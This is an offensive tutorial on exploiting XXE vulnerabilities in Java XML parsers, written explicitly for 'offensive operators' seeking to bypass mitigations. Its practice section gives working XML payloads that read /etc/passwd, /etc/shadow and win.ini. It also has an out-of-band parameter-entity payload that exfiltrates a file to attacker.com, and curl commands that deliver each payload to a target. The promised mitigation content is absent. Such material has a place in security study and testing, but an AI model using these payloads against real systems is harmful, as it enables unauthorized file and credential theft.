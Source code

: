 ```yaml
---
title: Understanding Java XML Parser Exploitation
description: Explore Java XML Parser XXE vulnerabilities, attack vectors, and mitigation
  techniques against SAXParser, DocumentBuilder, Xerces, and JAXP.
keywords:
- Java XML parser
- XXE vulnerabilities
- SAXParser
- DocumentBuilder
- Xerces
- JAXP
- XXE attack
- XML exploitation
- Java security
---
```


# Java XML Parser Exploitation

## Context

This article focuses on exploiting XML External Entity (XXE) vulnerabilities specifically in Java XML parsers. It covers various Java parser implementations such as SAXParser, DocumentBuilder, Xerces, and JAXP. The instruction caters to offensive operators seeking to craft attacks that utilize parser-specific behaviors, enabling them to bypass common mitigation strategies.

Assumed knowledge includes a solid understanding of XML parsing fundamentals, entity resolution mechanisms, Java Security Manager concepts, and general XXE exploitation techniques.

## Theory

### Java XML Parser Landscape and XXE Exposure

Java XML parsers, such as SAXParser, DocumentBuilder, DOM, Xerces, and JAXP APIs, play a pivotal role in XML data processing. The configuration of these parsers primarily determines their vulnerability to XXE attacks. When not properly configured, Java XML parsers may allow external entity expansion, leading to potential XXE exploitation. This vulnerability model revolves around the improper mishandling of entity resolution settings, resulting in unauthorized access to system resources through crafted XML input.

### Parser-Specific XXE Attack Vectors

Each Java XML parser offers unique attack sequences based on their configuration settings:

- **SAXParser**: Exploitation occurs through unprotected instances of javax.xml.parsers.SAXParserFactory, permitting external entity injection.
- **DocumentBuilder**: Vulnerabilities arise from insecure configurations within DocumentBuilderFactory, allowing XXE attacks.
- **Xerces**: The Apache Xerces parser can be exploited when default settings facilitate entity expansion.
- **JAXP**: When Java API for XML Processing operates with secure processing disabled, XXE vulnerabilities are exposed.

### Java XML Parser Configuration and Prevention Bypass

Many developers mistakenly assume that disabling Document Type Definitions (DTDs) or external entities comprehensively mitigates XXE vulnerabilities. However, some mitigations may only block SYSTEM entities, leaving parameter or internal entities vulnerable. Furthermore, legacy or custom parser wrappers might inadvertently re-enable insecure features, thus providing potential bypass avenues for attackers.

### Attacker Opportunities and Threat Surface

Applications often trust XML input from untrusted sources, posing significant risks. XXE payloads can exploit this trust to access local files, environment variables, and internal network resources. Moreover, due to protocol weaknesses, Java parsers may erroneously fetch remote resources through file://, http://, or ftp:// schemes, enabling further exploitation vectors.

## Practice

### SAXParser XXE Exploitation (javax.xml.parsers.SAXParserFactory)

- **Craft an XML Payload**: 
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <foo>&xxe;</foo>
  ```
  This XML defines an external entity referencing a local file.

- **Execute the Exploit**:
  ```bash
  curl -X POST -H "Content-Type: application/xml" --data-binary @xxe.xml http://target-app/upload
  ```
  Send the malicious XML to a vulnerable entry point using SAXParser.

**Outcome**: The attacker retrieves the contents of /etc/passwd, demonstrating sensitive data access via XXE in SAXParser.

### DocumentBuilder XXE Exploitation (javax.xml.parsers.DocumentBuilderFactory)

- **Prepare an XXE Payload**:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>
  <foo>&xxe;</foo>
  ```
  This payload is designed to target a file on a Windows system through an external entity.

- **Deliver the Payload**:
  ```bash
  curl -X POST -H "Content-Type: application/xml" --data-binary @xxe_win.xml http://target-app/upload
  ```
  Attack delivery is attempted via the DocumentBuilder interface.

**Outcome**: Successful XXE attack results in unauthorized access to the targeted Windows configuration file.

### Xerces XXE Exploitation (org.apache.xerces.parsers.SAXParser)

- **Design a Parameter Entity XXE for OOB Exfiltration**:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>"> %eval; %exfiltrate; ]>
  <foo>bar</foo>
  ```
  This XML uses parameter entities to facilitate out-of-band data exfiltration.

- **Execute with a Network Exfiltration Trigger**:
  ```bash
  curl -X POST -H "Content-Type: application/xml" --data-binary @xxe_oob.xml http://target-app/upload
  ```
  The crafted payload triggers exfiltration via a vulnerable Xerces parser.

**Outcome**: The sensitive file is stealthily exfiltrated to an attacker-controlled server.

### JAXP XXE Prevention Bypass

- **Test for Secure Processing Disablement**:
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/shadow"> ]>
  <foo>&xxe;</foo>
  ```
  This payload is used to check if JAXP's secure processing feature has been disabled.

- **Deploy the Test Payload**:
  ```bash
  curl -X POST -H "Content-Type: application/xml" --data-binary @xxe_shadow.xml http://target-app/upload
  ```
  Initiate the payload aimed at exploiting JAXP vulnerabilities.

**Outcome**: If JAXP's secure processing was not enforced, unauthorized access to /etc/shadow is possible.

## Tools

- **curl**
- **Burp Suite**
- **XXEinjector**